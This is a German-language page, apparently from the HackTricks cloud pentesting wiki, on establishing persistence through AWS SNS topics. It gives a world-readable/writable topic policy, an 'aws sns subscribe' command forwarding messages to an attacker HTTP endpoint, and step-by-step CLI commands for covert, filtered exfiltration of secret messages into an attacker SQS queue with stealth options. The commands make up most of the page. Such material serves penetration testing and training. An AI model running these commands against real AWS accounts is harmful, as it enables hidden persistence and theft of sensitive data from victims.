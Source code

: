 # AWS - SNS Persistenz

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Für weitere Informationen siehe:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### Persistenz

Beim Erstellen eines **SNS topic** müssen Sie in einer IAM policy **angeben, wer Lese- und Schreibzugriff hat**. Es ist möglich, externe Accounts, ARN von Rollen oder **sogar "\*"** anzugeben.\
Die folgende Policy gewährt jedem in AWS Zugriff zum Lesen und Schreiben im SNS topic namens **`MySNS.fifo`**:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### Subscriber erstellen

Um weiterhin alle Nachrichten aus allen Topics zu exfiltrating, könnte attacker **Subscriber für alle Topics erstellen**.

Beachte, dass wenn das **topic vom Typ FIFO ist**, nur Subscriber, die das Protokoll **SQS** verwenden, genutzt werden können.
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
### Verdeckte, selektive exfiltration über FilterPolicy auf MessageBody

Ein attacker mit `sns:Subscribe` und `sns:SetSubscriptionAttributes` auf einem Topic kann eine unauffällige SQS-Subscription erstellen, die nur Nachrichten weiterleitet, deren JSON-Body einem sehr engen Filter entspricht (zum Beispiel `{"secret":"true"}`). Das reduziert Volumen und Erkennungswahrscheinlichkeit, während weiterhin exfiltrating sensibler Datensätze möglich ist.

**Mögliche Auswirkungen**: Covert, low-noise exfiltration nur gezielter SNS-Nachrichten von einem victim topic.

Schritte (AWS CLI):
- Stelle sicher, dass die attacker SQS queue policy `sqs:SendMessage` vom victim `TopicArn` erlaubt (Condition `aws:SourceArn` equals the `TopicArn`).
- Erstelle eine SQS-Subscription für das Topic:

```bash
aws sns subscribe --region us-east-1 --topic-arn TOPIC_ARN --protocol sqs --notification-endpoint ATTACKER_Q_ARN
```

- Setze den Filter so, dass er auf den MessageBody wirkt und nur `secret=true` übereinstimmt:

```bash
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicyScope --attribute-value MessageBody
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicy --attribute-value '{"secret":["true"]}'
```

- Optional stealth: aktiviere RawMessageDelivery, sodass nur die rohe Nutzlast beim Empfänger landet:

```bash
aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name RawMessageDelivery --attribute-value true
```

- Validierung: Veröffentliche zwei Nachrichten und bestätige, dass nur die erste in der attacker queue ankommt. Beispiel-Payloads:

```json
{"secret":"true","data":"exfil"}
{"secret":"false","data":"benign"}
```

- Cleanup: unsubscribe und delete die attacker SQS queue, falls sie für persistence testing erstellt wurde.

{{#include ../../../../banners/hacktricks-training.md}}
